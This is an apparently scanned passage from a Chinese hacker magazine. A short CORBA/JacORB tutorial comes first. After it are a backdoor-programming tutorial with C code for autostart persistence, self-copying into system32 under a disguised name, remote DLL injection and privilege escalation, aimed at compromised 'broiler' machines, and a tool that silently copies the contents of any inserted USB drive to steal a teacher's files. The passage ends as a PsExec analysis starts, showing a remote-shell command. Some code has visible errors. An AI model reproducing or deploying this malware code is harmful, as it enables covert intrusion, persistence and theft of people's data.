// 通过POA将一个Java对象转化成一个CORBA对象。
org.omg.CORBA.Object o = poa.servant_to_reference(new gridImpl());
// 使nc绑定该对象的引用(这一过程通过命名服务器来完成),注意使对象的名称作为bind()的参数
NamingContextExt nc = NamingContextExtHelper.narrow(orb.resolve_initial_references("NameService"));
nc.bind(nc.to_name("grid.example"), o);
```

4)编写客户端调用服务程序

```
// 创建orb对象
org.omg.CORBA.ORB orb = org.omg.CORBA.ORB.init(args, null);
// 客户端通过命名服务器获取一个"grid"服务的引用
NamingContextExt nc = NamingContextExtHelper.narrow(orb.resolve_initial_references("NameService"));
grid = MyServerHelper.narrow(nc.resolve(nc.to_name("grid.example")));
// 使用grid对象进行计算
```

至此,JacORB这个免费的Corba工具可以正式启用了。

#### 使用Jbuilder9和JacORB联合开发

builder默认的两种Corba工具为Visibroker和OrbixWeb,由于自定义的Corba工具难以导入其中,所以还不能系统的完全采用Jbuilder来进行Corba接口的开发。本例中,我们将使用Jbuilder9开发界面程序,结合JacORB来开发Corba

- 另外,可以通过Jbuilder等IDE工具建立一个工程来运行

接口程序。下面是一个人力资源查询系统。

### 1. HR.idl定义

我们还是遵循上述典型步骤，首先是定义HR.idl文件。

```
module demo
{
    module humanresource
    {
        interface PersonalInfo
        {
            string getName(in short IDNumber);
        };
    };
};
```

### 2. 编写Build.xml文件

```
<?xml version="1.0"?>
<!DOCTYPE project [ <!ENTITY common SYSTEM "file:../../etc/common.xml"> ]>
<project name="demo" default="all" basedir="../.."
&common;
<!-- =================================================================== -->
<!-- Demo build file -->
<!-- =================================================================== -->
<target name="humanresourceinit" depends="init">
<property name="name" value="humanresource"/>
<property name="dirs.base" value="${basedir}"/>
<property name="classdir" value="${dirs.base}/classes"/>
<property name="lib" value="${dirs.base}/lib"/>
<property name="dest" value="${dirs.base}/demo/${name}/generated"/>
<property name="include" value="${dirs.base}/idl/omg/"/>
</target>
<target name="all" depends="humanresourceinit,idl">
<javac srcdir="${dest}" destdir="${classdir}" includes="**/*.java"/>
<javac srcdir="${dirs.base}" destdir="${classdir}" includes="demo/${name}/*.java"/>
</target>
<target name="idl" depends="humanresourceinit,load-taskdef">
<mkdir dir="${dest}"/>
<jacidl srcdir="demo/${name}" destdir="${dest}" includePath="${include}" includes="*.idl"/>
</target>
<target name="clean" depends="humanresourceinit">
<delete dir="${classdir}/demo/humanresource"/>
<delete dir="${dest}"/>
</target>
</project>
```

### 3. 编写HrImpl.java

```
package demo.humanresource;
import demo.humanresource.*;
class HrImpl extends PersonalInfoPOA {
    public String getName(short IDNumber)
    {
        if(IDNumber == 5)
            return "John";
        else
            return "UnDefined";
    }
}
```

输入员工编号5，输入员工姓名john，否则查询出undefined。

### 4. 在Jbuilder中编写服务器端代码Server.java

下面包括了典型的Corba服务端代码

```
package demo.humanresource;

import org.omg.PortableServer.*;
import org.omg.CosNaming.*;
import org.omg.CosNaming.NamingContextPackage.*;
import org.omg.CORBA.*;
import java.io.*;

/**
 * <p>Title: </p>
 * <p>Description: </p>
 * <p>Copyright: Copyright (c) 2004</p>
 * <p>Company: </p>
 * @author not attributable
 * @version 1.0
 */

public class Server {
  public static void main(String[] args){
    try{
      org.omg.CORBA.ORB orb = org.omg.CORBA.ORB.init(args,null);
      org.omg.PortableServer.POA poa = org.omg.PortableServer.POAHelper.narrow(orb.resolve_initial_references("RootPOA"));
      poa.the_POAManager().activate();
      HrImpl instPI = new HrImpl();
      //orb.connect(helloRef);
      org.omg.CORBA.Object objRef = poa.servant_to_reference(instPI);
      NamingContextExt nc = NamingContextExtHelper.narrow(orb.resolve_initial_references("NameService"));
      nc.bind( nc.to_name("pkking"), objRef);
      System.out.println("Server Ready");
      orb.run();
    }
    catch(Exception e){
      System.err.println(e);
    }
  }
  public Server() {
  }
}
```

### 5. 在Jbuilder中编写客户界面

详细代码比较繁琐，已收录到光盘，请查看。

### 6. 运行参考

在D:\JacORB_2_1\demo\humanresource文件夹下启动DOS窗口，敲入ANT命令，程序将自动寻找Build.xml文件进行编译。首先启动命名服务：ns NS_Ref。然后启动服务端，命令为：
`jaco demo.humanresource.Server`
然后启动客户端，命令为：
`jaco demo.humanresource.Client`
显示出界面后，输入5，可以看到输出结果为John，如图2所示。

此时，命名服务显示绑定名称Pkking。至此，一个带界面的Corba程序范例调试通过。以上程序在Windows 2000 Professional+Jbuilder 9+JacORB_2_1下调试通过。


图2

## 编程解析 PROGRAMMING ANALYSE

Socket: 后门的编写需要掌握多方面的编程知识，这样我们才能写出一个较为完整、功能强大的后门，本文是《从零开始学编程之六：不会写后门的就不是黑客》一文的后续，一起来继续后门编程之旅！

适合读者：编程爱好者、黑客迷

前置知识：VC++

### 不会写后门就不是黑客（续）

文/图 Sculkr/古开元


在《之六》中，我給朋友们简单介绍了编写后门的5项必须的技术，虽然简单直接，很多读者都反映学到了很多东西，但要知道那是远远不够的，真正要编写出一个稳定而且功能强大的后门程序，涉及到的知识太多太广，冰冻三尺，非一日之寒啊！所以，在接下来的日子里，我们还得继续努力，因为革命尚未成功！本文再介绍5个与后门相关的比较重要的编程技术。当然，我所介绍的不仅局限于后门的编程，同样可以运用于木马、远程控制等程序的编写，因为这些都是融通的。

以下代码在Windows XP SP1 + Vc6.0+sp6环境下编译通过。

#### 技术实现六：

##### 判断目标是否是Admin权限

不知道哪个小说家说过：“人的欲望永远是无限膨胀的”。这句话可能有点偏激，但是假如我得到了一台肉鸡，那么我绝对不满足于自己只是个处处受限的Guest。我会扯着脖子向那个肉鸡说：曾经你这个肉鸡摆在我的面前，而我却只有Guest的访问权限，如果上天再给我一次机会的话，我会对你说：我要系统管理员权限！如果硬要给这个权限加一个期限的话，我希望是1万年！呵呵，看看图1，明显对比出一般受限用户与系统管理员的差别。

有点偏题了，因为这里我只是想实现如何判断目标主机正在运行的用户是否是admin，下面给出示例代码：


```
// 定义该函数用来判断是否是admin
BOOL IsAdmin(void)
{
    HANDLE hAccessToken;
    BYTE *InfoBuffer;
    PTOKEN_GROUPS ptgGroups;
    // 定义该变量保存组令牌
    DWORD dwInfoBufferSize;
    PSID psidAdministrators;
    // 定义该变量保存管理员SID
    SID_IDENTIFIER_AUTHORITY siaNtAuthority = SECURITY_NT_AUTHORITY;
    UINT i;
    BOOL bRet = FALSE;

    // 我们要查看的当前进程运行在什么权限下
    if(!OpenProcessToken(GetCurrentProcess(),
        // 指向新打开的访问令牌句柄
        TOKEN_QUERY,      // 要求去询问一个访问令牌
        &hAccessToken))   // 指向新打开的访问令牌句柄
        goto cleanup;     // 若打开进程令牌失败，做清理工作。

    InfoBuffer = new BYTE[1024]; // 分配缓冲区空间
    if(!InfoBuffer)
        goto cleanup;

    bRet = GetTokenInformation(hAccessToken,
        // 前面打开的令牌句柄
        TokenGroups,
        // 指定令牌信息类枚举类型中"组"令牌结构
        InfoBuffer,
        // 获得的该"组"令牌结构的信息存放到该缓冲区
        1024,                    // 指定存储缓冲区大小
        &dwInfoBufferSize);
        // 从该令牌信息实际取得字节数的大小

    CloseHandle(hAccessToken);
    // 关闭刚才打开的令牌句柄。

    if(!bRet)      // 若获得令牌信息失败，做清理工作
        goto cleanup;

    // 分配和初始化安全标识符
    if(!AllocateAndInitializeSid(&siaNtAuthority,
        // SID 顶级权限范围
        2,          // 我们只需要两个SID子认证的值
        SECURITY_BUILTIN_DOMAIN_RID, // 内置系统域
        DOMAIN_ALIAS_RID_ADMINS,
        // 管理员域的本地组
        0,0,0,0,0,0,
        &psidAdministrators)) // 该参数保存初始化后得到的SID
        goto cleanup;

    bRet = FALSE;

    ptgGroups = (PTOKEN_GROUPS)InfoBuffer;

    for(i = 0; i < ptgGroups->GroupCount; i++)
    {
        // 比较两个SID是否相等
        if(EqualSid(psidAdministrators,ptgGroups->Groups[i].Sid))
        {
            bRet = TRUE;
```

```
BOOL bRet = FALSE;

// 我们要查看的当前进程运行在什么权限下
if(!OpenProcessToken(GetCurrentProcess(),
// 指向新打开的访问令牌句柄
TOKEN_QUERY,    // 要求去询问一个访问令牌
&hAccessToken)) // 指向新打开的访问令牌句柄
goto cleanup;   // 若打开进程令牌失败，做清理工作。

InfoBuffer = new BYTE[1024]; // 分配缓冲区空间
if(!InfoBuffer)
goto cleanup;

bRet = GetTokenInformation(hAccessToken,
// 前面打开的令牌句柄
TokenGroups,
// 指定令牌信息类枚举类型中"组"令牌结构
InfoBuffer,
// 获得的该"组"令牌结构的信息存放到该缓冲区
1024,                    // 指定存储缓冲区大小
&dwInfoBufferSize);
// 从该令牌信息实际取得字节数的大小

CloseHandle(hAccessToken);
// 关闭刚才打开的令牌句柄。

if(!bRet)      // 若获得令牌信息失败，做清理工作
goto cleanup;

// 分配和初始化安全标识符
if(!AllocateAndInitializeSid(&siaNtAuthority,
// SID 顶级权限范围
2,          // 我们只需要两个SID子认证的值
SECURITY_BUILTIN_DOMAIN_RID, // 内置系统域
DOMAIN_ALIAS_RID_ADMINS,
// 管理员域的本地组
0,0,0,0,0,0,
&psidAdministrators)) // 该参数保存初始化后得到的SID
goto cleanup;

bRet = FALSE;

ptgGroups = (PTOKEN_GROUPS)InfoBuffer;

for(i = 0; i < ptgGroups->GroupCount; i++)
{
// 比较两个SID是否相等
if(EqualSid(psidAdministrators,ptgGroups->Groups[i].Sid))
{
bRet = TRUE;
```

www.hacker.com.cn

2006 精华奉献本 下册

```
break;
}
}
//由AllocateAndInitializeSid()分配的SID必须用
FreeSid()来释放。
FreeSid(psidAdministrators);
cleanup: //清理工作
if(InfoBuffer)
delete InfoBuffer;
return bRet; //TRUE表示ADMIN，FALSE表示非ADMIN
}
```

SID，即安全标识符(security identifier)它是一个不定长度的结构体，用来表示具体的用户或用户组，我们很多关于用户名，用户密码的操作都建立在它之上的。

代码中的注释很详细了，相信大家应该可以看懂。

学习编程的过程中，遇到不懂的地方，要多动动手脑，查阅相关的资料，慢慢积累，很多知识自然而然就被掌握了，个人认为这样的学习方法才是最有效的。

#### 技术实现七：

##### 操作注册表实现自启动

不管是后门还是木马，它们的目的决不是像一次性饭盒一样，用一次就不要了。你想辛辛苦苦逮到了一只又肥又大的肉鸡，谁不想好好养着，养肥了养壮了，以后好开刀？何况现在肉鸡难找啊——呜呜呜，你以为现在的网上用户都像《天下无贼》里的傻根啊？傻得那么可爱。就算遇到一两个傻根，你以为你是里面的刘德华、葛优啊，想偷谁就偷谁？

为了使目标主机每次开机都运行我们的后门，我们必须让我们的后门实现自启动的功能。自启动是什么东西？上Google搜一搜，至少可以找到十种手动方法。但你总不至于跑到肉鸡MM的面前说：“对不起，借用你的电脑一会，看我演示我的后门怎么自启动的”，汗！我们还是通过编程实现吧：

```
BOOL RegAutoRun()
{
HKEY hKey;
TCHAR exename[128] = "exe";
TCHAR svExeFile[256] = "F:\\Program Files\\Tencent\\qq\\qq.exe";
if(RegOpenKey(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows\\CurrentVersion\\Run",&hKey)==ERROR_SUCCESS)
{
RegSetValueEx(hKey,exename,0,REG_SZ,(BYTE *)svExeFile,strlen(svExeFile));
RegCloseKey(hKey);
printf("ok\n");
return TRUE;
}
else
printf("error\n");
return FALSE;
}
```

上面我们实现的自启动只是简单的通过设置Windows系统注册表Software\\Microsoft\\Windows\\CurrentVersion\\Run，让其加载我们的后门程序，这种修改启动项的方法很多人都知道，比较普通。

一般情况下，如果是Windows NT系统，我们同样可以通过注册表把后门程序设置成系统服务Software\\Microsoft\\Windows\\CurrentVersion\\Runservices来启动。当然，这里还涉及到把后门作为服务安装到目标主机的方法。大家还记得我上期提供的WinShell源代码吗？好好学习学习吧(什么，你没买上一期黑防，赶快想办法去邮购一本。黑防哪一期漏买都是对你成为黑客高手的极大损失啊！编辑们嘴都笑烂了：整篇文章就这句话最有价值了！)。

附带说一下，作为一名爱好黑客技术的你，应该对Windows操作系统的注册表有很好的了解，不，准确的说应该是精通，注册表是整个Windows操作系统的核心和基石，通过它能做很多很多让你睡觉都会发笑的事。关于操作注册表详细的编程技术，我会在以后跟大家分享。

#### 技术实现八：

##### 拷贝自身到系统目录

相信没有哪个人会嚣张到让自己的后门光明正大的存在，悠闲自得地躺在目标电脑的某个根目录下睡大觉吧？否则只要对方没瞎，一经发现，很容易就把它给干掉了，说不定还咧着嘴盆大嘴笑着骂你：“小样，这种水平也敢出来混？”。所以，一般的后门都是在第一时间内把自己拷贝到目标主机的系统目录下，即%SystemRoot%\system32\里，因为这里放着大大小小数千个文件，这样就可以鱼目混珠，掩人耳目了。当然，拷贝到系统目录操作完成后，还要有自删除的操作，关于自删除我记得以前黑防冰狐浪子有一篇文章介绍了4种方法，大家可以找来参考(读者：请问哪里可以买到呢？编辑：汗！往期杂志请邮购)：

```
BOOL CopySelfToSysdir()
{
//我们要隐藏在%SystemRoot%\system32\下虚假的程序名为explroe.exe
//呵呵，大家可以发挥想象力起个更NB的名字
const TCHAR* fakeExeName = "explroe.exe";
TCHAR szDestPath[MAX_PATH];
TCHAR szTmp[MAX_PATH] ={0};
//获得后门程序自身全路径
if(!GetModuleFileName(NULL, szTmp, sizeof(szTmp)))
{
printf("GetModuleFileName error\n");
return FALSE;
}
//获得系统目录路径
if(!GetSystemDirectory(szDestPath, MAX_PATH))
{
printf("GetSystemDirectory error\n");
return FALSE;
}
//得到目标目录全路径%SystemRoot%\system32\explroe.exe
```


```c
lstrcat(szDestPath, "\\");
lstrcat(szDestPath, fakeExeName);

// 执行自拷贝操作，把自身复制到系统目录下
if(CopyFile(szTmp, szDestPath, FALSE))
{
    printf("CopyFile error\n");
    return FALSE;
}
else{
    printf("%s\n", szDestFile);
}
return TRUE;
```

#### 技术实现九：远程线程注入

现在网上关于这项编程技术的介绍满天飞，因为要写一个好的后门，该后门至少要有高隐蔽、防查杀、无端口、自启动等要求，而将木马以 DLL 的形式嵌入到系统进程中，基本上都可以满足以上的要求，而这种远程线程注入技术也成为现代后门和木马程序的一项标准技术指标。

如果大家想要更为清晰地掌握该编程技术，强烈推荐细读 Jeffery Richter 的《Windows核心编程》，这本书个人觉得是每个学习 Windows 黑客编程技术爱好者的圣经。下面我们同样给出示例代码：

```c
//Pid是我们要注入的进程id，DllFullPath是我们要注入的 DLL 绝对路径
BOOL InjectDll(const char *DllFullPath, const DWORD Pid)
{
    HANDLE hRemoteProcess;    // 进程句柄

    // 如果是想打开系统进程，一定要先申请 debug 权限
    if(EnableDebugPriv(SE_DEBUG_NAME))
    {
        printf("addprivilege error\n");
        return FALSE;
    }

    if ((hRemoteProcess = OpenProcess(PROCESS_CREATE_THREAD | //允许创建远程线程
    PROCESS_VM_OPERATION | //允许远程 VM 操作
    PROCESS_VM_WRITE | //允许远程 VM 写
    PROCESS_VM_READ, //允许远程 VM 读
    FALSE,
    Pid)) == NULL)
    {
        printf("OpenProcess() error.\n");
        return FALSE;
    }

    char *pDllName;

    // 分配内存空间
    if ((pDllName = (char *)VirtualAllocEx( hRemoteProcess,
    NULL,
    strlen(DllFullFile) + 1,
    MEM_COMMIT,
    PAGE_READWRITE)) == NULL)
    {
        printf("VirtualAllocEx() error.\n");
        return FALSE;
    }

    // 使用WriteProcessMemory 函数将 DLL 的路径名复制到远程进程的内存空间
    if (WriteProcessMemory(hRemoteProcess,
    pDllName,
    (void *)DllFullPath,
    strlen(DllFullPath)+1,
    NULL) == 0)
    {
        printf("WriteProcessMemory() error. %d\n", GetLastError());
        return FALSE;
    }

    // 计算LoadLibraryA的入口地址
    PTHREAD_START_ROUTINE pfnStartAddr;

    if ((pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(
    GetModuleHandle(TEXT("kernel32")), "LoadLibraryA"))
    == NULL)
    {
        printf("GetProcAddress() error.\n");
        return FALSE;
    }

    HANDLE hRemoteThread;
    DWORD ThreadId;

    if ((hRemoteThread = CreateRemoteThread(hRemoteProcess, //被嵌入的远程进程
    NULL,
    0,
    pfnStartAddr, //LoadLibraryA的入口地址
    pDllName,
    0,
    &ThreadId)) == NULL)
    {
        printf("CreateRemoteThread() error.\n");
        return FALSE;
    }
    return TRUE;
}
```

这里要说的是 提升进程权限在很多的时候都有用。在我上一篇文章实现远程主机/重启的时候也用到了，下面也附带给出提升权限的代码，因为以后我们肯定会再次用到。请打开你的"编程学习总结"笔记本，跟我一起，把下面的这段代码一个字一个字地写进去

```c
// 提升权限
int EnableDebugPriv(const char *Name)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID Luid;
    // 打开进程令牌环
    if (!OpenProcessToken(GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY,
    &hToken))
    {
        printf("OpenProcessToken error.\n");
        return 1;
    }

    // 获得进程本地唯一ID 值
    if (!LookupPrivilegeValue(NULL,Name,&Luid))
    {
        printf("LookupPrivilegeValue error.\n");
        return 1;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    tp.Privileges[0].Luid = Luid;
    // 调整我们的权限
    if (!AdjustTokenPrivileges(hToken,
        0,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        NULL,
        NULL))
    {
        printf("AdjustTokenPrivileges error.\n");
        return 1;
    }

    return 0;
}
```

```c
WSADATA wsa;
DWORD dwRet;
//初始化winsock库
dwRet = WSAStartup(MAKEWORD(2,2), &wsa);
if (dwRet)
{
    printf("initial winsock lib error\n");
    return 1;
}

TCHAR hostname[MAX_PATH]={0};
// 获得本地主机名
dwRet = gethostname(hostname, MAX_PATH);
if (dwRet == SOCKET_ERROR)
{
    printf("gethostname error\n");
    return 1;
}

PHOSTENT pHostEnt = NULL;
// 获得对应主机名的主机信息
pHostEnt = gethostbyname(hostname);
if (!pHostEnt)
{
    printf("gethostbyname error\n");
    return 1;
}

printf("name  %: %s\n"    //主机名
"alias %: %s\n"            //主机别名
"type  %: %d\n"            //类型：地址类型，比如AF_INET
"length%: %d\n", pHostEnt->h_name,        //地址长度
pHostEnt->h_aliases, pHostEnt->h_addrtype, pHostEnt->h_length);

SOCKADDR_IN sin;
//nAdapter为网卡数，遍历获取每个网卡的对应的IP 地址
for(int nAdapter=0; pHostEnt->h_addr_list[nAdapter]; nAdapter++)
{
    memcpy(&sin.sin_addr.s_addr, pHostEnt->h_addr_list[nAdapter], pHostEnt->h_length);
    printf("No.%d IP#: %s\n", nAdapter, inet_ntoa(sin.sin_addr));
}
```

#### 技术实现十：列举目标主机的所有IP地址

如图2所示，是我在我的机器上用了ipconfig后所显示的结果：

假如你入侵的只是对方的虚拟主机，而重要的信息却在宿主机上，我们也许就可以通过虚拟主机上的一些蛛丝马迹，再继续入侵宿主机，反之亦然，因为我们已经得到两者关联的IP地址。至于如何通过这些蛛丝马迹进一步入侵渗透，不在我们的讨论范围之内，大家可以自己琢磨研究。下面给出示例代码：


本次的学习又告一个段落，广大初学黑客编程的爱好者如果能从中获益，我就很开心了，毕竟大家好才是真的好嘛，我想这也是黑防创刊的初衷。


### 闪盘数据强盗

适合读者：入侵爱好者、编程爱好者、网民
前置知识：C语言基本语法
文/图 Mic Plaly
——U盘窥探者

你的U盘里如果有小秘密的话，千万不可以随便在别人机器上乱用，因为现在有了FlashDiskThief（闪盘窥探者）。这是一个在后台偷取你闪盘里所有东西的小软件，只要你的闪盘一插上，所有的东东都被悄悄拷走了。

事情是这样的，我们的微机接口的老师每次来上完课都将他的课件带走。从来不像其他老师一样对大家说："课件留在这了，你们自己拷走，课后看看……。"而他总是说："不要再给我提课件的事了，你们上课认真听！在课堂消化……。"然后就一阵诡秘的笑。倒！我上课干点别的事情，然后考前看看课件就把这门课给过了的想法是落空了。难道就这样服了不成？不行！肯定不行！明的不行就来暗的，你不是每次都带着你的U盘来上课吗？这回让你尝尝厉害，只要你的U盘一插上，所有的东东都被我暗中拷走了，哈哈！

### 编程思路

先说一下我的思路 每隔一段时间就扫描一次系统所有的逻辑盘符（用计时器来控制），然后获取每个盘符的属性，如果其属性为"可移动的"，就可能是U盘、软盘或其它可移动存储设备（譬如有些笔记本上的智慧棒），然后排除软盘（可利用软盘总是A盘的特征来处理，如果不去掉的话，当软驱里没有盘时复制会出错），之后就是复制其里面所有的东西了（当然可以在程序中做到只复制指定的文件）。好了，思路就是这么简单。本人习惯用C++Builder做点小东西，这次也不例外。

下面是程序流程图，如图1所示。


#### 代码实现

接下来就是具体的实现代码了，我会逐行分析，希望能照顾到初学者。

先介绍我所用到的几个关键的API函数。

```c
DWORD GetLogicalDrives(void);// 返回包含当前计算机中的逻辑驱动器名称的32位无符号整形数。如果存在逻辑盘符则按从A-Z的顺序将返回的DWORD的相应位置1，A对应第一位，B对应第二位，依此类推。
UINT GetDriveType(LPCTSTR lpRootPathName);// GetDriveType判断一个磁盘驱动器的类型可能返回removable, fixed, CD-ROM, RAM disk或network drive。
INT SHFileOperation(LPSHFILEOPSTRUCT lpFileOp);// 执行复制或删除或剪贴的操作，其操作对象位LPSHFILEOPSTRUCT结构体。
BOOL RegisterHotKey( HWND hWnd, int id,UINT fsModifiers,UINT vk);// 注册系统热键。
BOOL UnregisterHotKey( HWND hWnd, int id);// 注销指定的系统热键。
BOOL DirectoryExists(String Directory);// 判断路径是否存在。
BOOL createdir (filesys path);// 创建指定目录。
INT GetLastError( );// 针对之前调用的api函数，用这个函数取得扩展错误信息。
HANDLE CreateMutex(LPSECURITY_ATTRIBUTES lpMutexAttributes,
// pointer to security attributes
BOOL bInitialOwner,// flag for initial ownership
LPCTSTR lpName // pointer to mutex-object name
);// 创建一个互斥体（MUTEX）。
```

了解了这一系列的API函数后，离成功就不远了。对于界面的制作我就不在这里累赘了，我做的界面如图2所示。


完成了界面制作后，接下来就是添加代码了。下面着重介绍我写的两个函数

```cpp
1. AnsiString __fastcall TForm1::GetMobileDrive(void)
// 获得可移动逻辑盘符号。
{
    AnsiString strDriver=NULL;
    DWORD ld = GetLogicalDrives();
    for (int i = 1; i < 26; i++) //从1起判断就会忽略软驱A：，从0 判断就不忽略软驱A：
    {
        if ((ld & (1 << i)) != 0) // "1<<i" 相当于1乘以2的i次方，即左移i位。
        {
            AnsiString drv = AnsiString(char('A' + i)) + ":\\";
            if (GetDriveType(drv.c_str()) == DRIVE_REMOVABLE) //判断其是否为可移动备。
                strDriver=drv;
        }
    }
    return strDriver;
}
```

这个函数的作用就是获得可移动逻辑盘符号，通过For循环将DWORD ld中的为1的（指二进制形式）位解析出来，并以相应的字母表示，然后用GetDriveType()来判断盘符的属性，获取可移动的设备盘符。这里值得注意的是"drv.c_str()"，因为API函数是用纯C写的，所以要将C++Builder格式的字符串（AnsiString ）转换到C格式的字符串，就是用到了AnsiString的一个成员函数str( );

```cpp
2. bool __fastcall TForm1::CopyFile(bool Hint ,bool CopyEnable, bool Result ,AnsiString SourcePath, AnsiString DestinationPath)//执行复制操作。
{
    if(CopyEnable)
    {
        SHFILEOPSTRUCT FileOP; //SHFILEOPSTRUCT声明
        //SHFILEOPSTRUCT 成员赋值
        FileOP.hwnd = Handle;
        FileOP.fFlags = FOF_SILENT;//不显示复制进度条，至关重要
        FileOP.wFunc = FO_COPY;
        FileOP.pFrom = SourcePath.c_str();
        FileOP.pTo = DestinationPath.c_str();
        FileOP.fAnyOperationsAborted = false;
        FileOP.hNameMappings = NULL;
        FileOP.lpszProgressTitle = NULL;
        //SHFILEOPSTRUCT 成员赋值结束
        int msg = SHFileOperation(&FileOP);// 执行复制操作

        if(msg==0)
        {
            CopyEnable=false;
            Result=true;
            if(Hint)
                ShowMessage("复制完成");
        }
        else
        {
            Result=false;
            if(Hint)
                ShowMessage("复制失败！！！");
        }
        return  Result;
    }
}
```

```cpp
HideFlag=false;// 隐藏到系统托盘的标志
Timer1->Enabled=false;// 计时器关
```

Hint 为是否提示复制完成的标志，如果Hint为真，就会在复制完成后提示用户已完成。
Result 为复制成功的标志，成功就返回true，否则就是false。CopyEnable为一个全局的控制是否复制的标志，当其为真的时候才可以执行复制操作，如果为假就无法执行复制操作，设置这个变量主要是为了实现"复制完成自动结束"而设置的变量，具体的实现过程可参见详细的源代码。至于SHFILEOPSTRUCT结构我建议各位去查一下MSDN，这个东西的作用还真大，其封装了一系列的API，使执行相关的文件操作在编写代码时变得相当简单。到这里程序就基本上完成了一大半了，接下来就是计时器控制的循环代码段的逻辑实现了。

然后是计时器控制循环得代码段：这段代码只要计时器处于激活状态，是会在定制的时间间隔内循环执行。

```cpp
void __fastcall TForm1::Timer1Timer(TObject *Sender)
{
    strMobileDriver=GetMobileDrive();// 获得逻辑盘符
    if((strMobileDriver!=NULL)&&(strStoreMobileDriver!=strMobileDriver)) // 判断是否有新// 的闪盘盘符
    {
        bCopy=true;
        strFileFrom=strMobileDriver+"\\*. *"; // 获取完整的源路径
    }
    else
    {
        bCopy=false;
    }
    strStoreMobileDriver = strMobileDriver ;
    if((CopyFile(strShowMessage,bCopy,bCopyResult,strFileFrom,strFileTo))&&(CheckBox2->Checked)) //选择"复制完成自动结束"的判断
        Application->Terminate();// 在"选择"复制完成自动结束"的同时复制一旦完成，
    //序结束
}
```

在构造函数中先对一系列得变量初始化

```cpp
__fastcall TForm1::TForm1(TComponent* Owner)
    : TForm(Owner)
{
    strSaveDrt=NULL; // 保存文件的路径
    strMobileDriver=NULL;// 闪盘的盘符
    strFileFrom=NULL; // 闪盘的盘符+"\\*. *"
    //得到完整的源路径
    strStoreMobileDriver=NULL;
    // 闪盘的盘符暂存的空间，用来比较是否有新的闪盘出现
    strFileTo=GetCurrentDir();
    // 初始保存文件的路径为当前目录
    bCopy=false; // 注意初始值，是否执行复制的标志，作为行参传给CopyFile();当复制完成后，就将其设置为false,对同一U盘就不会执行第二次复制操作了。
    bShowMessage=false; // 复制完成提示标志
    bCopyResult=false;// 复制文件的返回值
}
```


到这里，程序就基本上完工了，这里要提及的是strMobileDriver变量，它的作用是暂存可移动属性的盘符，与下一次扫描到的可移动属性的盘符作比较，判断是否有新的闪盘插入，如果没有，就将bCopy赋值为true，CopyFile()函数读到bCopy为真时就执行复制操作了，否则不进行复制操作。这里就只介绍了主要的代码，详细代码请参见源文件。

好了，到这基本结束了。软件主要实现了以下功能：后台复制闪盘所有文件，附带界面隐藏，热键激活窗口，隐藏到系统托盘，复制完成自动结束程序的功能，可以识别多个闪盘，自动创建默认路径等。编程好玩吧？！呵呵。


### PS Tools系列工具分析
#### ——对PSExec的逆向解析

适合读者：入侵爱好者、程序员
前置知识：逆向工具使用、C语言语法

文/图 dangguai27

在网络攻击中，经常用到系列工具pstools，它是由Sysinternals公司推出的一个功能强大的Windows NT/2000远程管理工具包，最新版本为V2.1，包含了10多个工具。在入侵时，最常用的就是其中的psexec（获取对方Shell）、pslist（列举进程）、pskill（杀进程）等工具，它们使用简单，功能强大。只可惜虽然pstools的版本不断升级，但Sysinternals始终没有给出这些工具的源代码。这不符合技术共享的精神，也不利于大家的技术研究。因此，我决定对这些工具一一逆向，尽管不是非常准确，但逆向工程就是这样，只要能基本推出实现思路，并给予还原即可。
本文解析的是psexec.exe，这是我目前用的相对频繁的一个工具。

#### Psexec的功能及用法

通过IPC对内网Windows 2000入侵时，在知道目标系统管理员权限的用户名和密码的情况下，如果对方开启了IPC$和任一共享目录，我们就能够通过Copy命令或者在程序中通过CopyFile()函数拷贝一个可执行文件到目标系统中去，但是要让该文件执行起来却不是那么容易的事情。Windows 2000下有个at命令，可以在建立IPC连接之后，让目标机器上的某一程序定时运行，格式为：
at \\目标机器 目标机器时间 可执行文件
但是实际使用时，目标机器时间是以分钟为单位，而且该机器Task Scheduler服务没有开放则会失败，总感觉不那么好用。而且想通过at命令进入目标系统随心所欲地执行命令更是不可能。psexec.exe可以很轻松地实现这一功能。它参数很多，可以直接在命令行下输入psexec.exe命令查看，其核心功能就是远程或本地执行任意命令，并将执行的结果返回并显示出来。这里我们解析最关心的部分，就是获取远程机器的Shell（CMD窗口），即通过psexec执行远程机器CMD命令，工具用法如下：
```
psexec \\targetip -u user -p pass cmd.exe
```
如图1、2所示。


图1


图2

图2就是我们熟悉的DOS窗口了，dir、cd等命令任意执行都可以，是不是感觉有点像溢出攻击时的效果啊？ 呵呵，下面，我们来解析其中的执行流程。

#### 思路解析

其实解决任何技术问题的前期思路都是很重要的，清晰的思路可以让我们满怀信心地沿着正确的方向前行，达到事半功倍的效果。
对psexec这类工具的解析基本思路是网络数据包分析+静态反汇编分析+动态调试分析+代码还原。具体步骤如下：
> 利用Sniffer对psexec执行时数据包进行捕获并分析，有助于分析工具使用的协议和大致通信流程，这里的Sniffer工具选用Ethereal。
> 通过静态反汇编工具分析psexec，主要可以了解工具使用了哪些函数，结合前面数据包分析起来就更加清晰。
> 在了解工具通信流程和使用函数后，随后通过Softice对部分执行过程进行跟踪，获取函数调用时参数并整理思路。
> 代码还原。
基本思路确立之后，让我们开始吧！

#### 详细过程及代码

首先利用Ethereal分析通信数据包，这里假设目标机器为192.168.3.231，psexec运行的机器为192.168.3.158。
运行Ethereal，打开“Capture”->“Start”，在“Capture Filter”中填上“host 192.168.3.158 and host 192.168.3.231”，这样两台机器没有其他通信的话，就只捕获到它们在psexec运行时的数据包了。点击“OK”后开始抓包，然后按前面的用法执行psexec。在获取目标机器DOS窗口后，点击 Ethereal的“STOP”按钮，前面已经捕获的数据包便显示出来了，如图3所示。
通过“Protocol”这一项，可以看到psexec在通信时主要用到了SMB这个应用层协议。简而言之，SMB（服务

## PROGRAMMING ANALYSE

栏目编辑 > socket > socket@hacker.com.cn


图3

服务器信息块）协议是一个通过网络在共享文件、设备、命名管道和邮槽之间操作数据的协议，我们建立IPC连接、映射网络驱动、拷贝文件等操作都是基于SMB协议。

在Windows2000下，SMB协议可以直接运行于TCP层之上，对应TCP端口为445，也可以运行于NETBIOS接口之上，对应TCP端口为139。SMB数据包结构如下：

| 结构 | 长度 |
